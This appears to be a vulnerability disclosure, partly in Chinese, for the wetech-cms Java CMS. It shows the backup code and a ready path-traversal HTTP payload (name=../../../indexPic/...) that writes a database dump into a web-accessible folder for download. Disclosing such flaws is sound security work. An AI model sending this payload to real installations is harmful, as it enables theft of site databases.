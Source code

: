 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

#### wetech-cms-master\wetech-basic-common\src\main\java\tech\wetech\basic\util\BackupFileUtil.java

```java
	public void backup() {
		BufferedReader br = null;
		BufferedWriter bw = null;
		try {
			String cmd = "cmd /c mysqldump -u"+username+" -p"+password+" "+database;
			Process proc = Runtime.getRuntime().exec(cmd);
			br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
			bw = new BufferedWriter(
					new FileWriter(backupDir+File.separator+filename+".sql"));
			System.out.println(backupDir+File.separator+filename);
			String str = null;
			while((str=br.readLine())!=null) {
				bw.write(str);
				bw.newLine();
			}
		} catch (IOException e) {
			e.printStackTrace();
		} finally {
			try {
				if(br!=null) br.close();
			} catch (IOException e) {
				e.printStackTrace();
			}
			try {
				if(bw!=null) bw.close();
			} catch (IOException e) {
				e.printStackTrace();
			}
		}
	}
```

​	该功能再创建压缩包时存在目录穿透漏洞，我向上追溯时发现，对于传入的参数filename并没有进行过滤，所以可以在任意位置创建一个压缩包文件，甚至可以传到upload文件夹下通过URL访问直接下载下来，实现脱库。

​	payload如下：

```http
POST /admin/backup/add.do HTTP/1.1
Host: 172.21.55.165:8888
Content-Length: 38
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.55.165:8888
Referer: http://172.21.55.165:8888/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: cto_bundle=hVSq4l9ZUGQ2dzF1TiUyQmYlMkJhTUZKMXA1U3lTZTdnbWhmdlVhT3U1eGNIZXAlMkJyNDA1Qm83NUd5bVM1bXRONGdXMng1NVNYRHdrZXhQNmtWVk9uU0tNVnJYMjglMkJaQWFTdDRGdGRMck1DNkVvWEUyUVh5MWQlMkZvZkZ3YURyd1pnZjhvbWYlMkJMNHpWUmVCczZPc1lEeFNrMnRMYWxqSXclM0QlM0Q; collapase-nav=collapse-nav2; JSESSIONID=382FCF7BF762009C987ED7A0D73AF0C0
Connection: close

name=../../../indexPic/hadagaga123
```

​	我们访问http://localhost:8888/resources/indexPic/hadagaga123.tar.gz

![image-20241127231733666](img/image-20241127231733666-1732721891177-8-1732797677430-2-1732800525202-1.png)
